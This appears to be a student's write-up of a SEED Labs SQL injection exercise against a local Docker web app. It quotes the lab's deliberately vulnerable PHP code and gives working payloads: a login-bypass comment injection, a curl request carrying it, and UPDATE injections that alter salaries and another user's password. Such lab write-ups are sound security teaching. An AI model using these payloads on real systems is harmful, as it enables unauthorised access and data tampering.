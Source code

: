 # SQL Injection

### Preparation

For this Lab we will be using 2 docker containers:

* One to host our web application
* One to host the database used by said application

Then we mapped the container's IP address to the URL of the web application by adding this line to the /etc/hosts file

```
10.9.0.5 www.seed-server.com
```

### The Web application

the web application, we'll be using has 2 types of users with different privilleges:

* Employee : can only manage their own profile information
* Administrator : can manage every employee's profile information

![Alt text](images/logbook8/image.png)


## Task 1: Get Familiar with SQL statements

After running dcbuild and dcup to get the docker containers running, we have access to the database created in the container 4a12f793dd50.

![Alt text](images/logbook8/image-1.png)

And are able to query the database as such:

![Alt text](images/logbook8/image-alice.png)


## Task 2: SQL Injection Attack On Select Statement

For this task our goal is to login into an employee account abusing the sql injection vulnerability on the website www.seed-server.com.

This page uses this snippet of code to authenticate users:

```php
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);

// The following is Pseudo Code

if(id != NULL) {
if(name==’admin’) {
return All employees information;
} else if (name !=NULL){
return employee information;
}
} else {
Authentication Fails;
}

```

### Task 2.1: SQL Injection from webpage

For this task we need to login into the admin account without knowing their password.
We're assuming the username to be Admin.

Since the $input_uname user input is not handled properly, all there is to do is put a start comment line character after writing the username, this will comment the part of the query that would require a password to enter the account and therefore allowing us to access the admin account without the password

``` SQL
Admin' -- 
```
![Alt text](images/logbook8/image-2.1.png)


### Task 2.2: SQL Injection from control Line

For this task, we followed the same logic we used on Task 2.1. However, instead of writing the sql injection in the login form present in the web application we used the curl command to send the equivalent http request

``` 
curl 'www.seed-server.com/unsafe_home.php?username=admin%27%20--%20'

```

![Alt text](images/logbook8/image-2.2.png)

### Task 2.3: Append a new SQL statement

Since the php code is only expecting a query, it will run the sql code until it finds a ';' therefore making it impossible to append multiple SQL statements.

![Alt text](images/logbook8/image-2.3.png)

## Task 3

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
$conn->query($sql);
```

### Task 3.1 Change your own salary

For this task we want to change our own salary after being logged in.

All we need to do is introduce the salary = 999999 in the update statement, which we can do by closing the single quote after the nickname and adding an extra parameter to the update statement.

If we use the nickname input field to do that what we want to achieve is something like this nickname='**Alice',salary='10**', email= ...

We could also use  --  and comment the rest of the update statement, but that would change the salary of every employee in the enterprise, since it would ignore the ID = $id constraint.

Input:

```
Alice',salary='10
```
![Alt text](images/logbook8/image-3.1.png)


### Task 3.2 Change the boss's salary

This task is pretty much the same as the last one however for this one we will have to comment the rest of the update statement after adding the clause to make sure we're only reducing the salary of our boss.

Input:

```
Alice', salary=1 where Name='Admin' -- 
```

![Alt text](images/logbook8/image-3.2.png)

### Task 3.3 

This task follows the pattern of the last 2 however, this time we need to encode the password of our choice, beforehand.

Input:
```
Alice', password=sha1('FSI') where Name = 'Boby' -- 
```

![Alt text](images/logbook8/image-3.3.png)

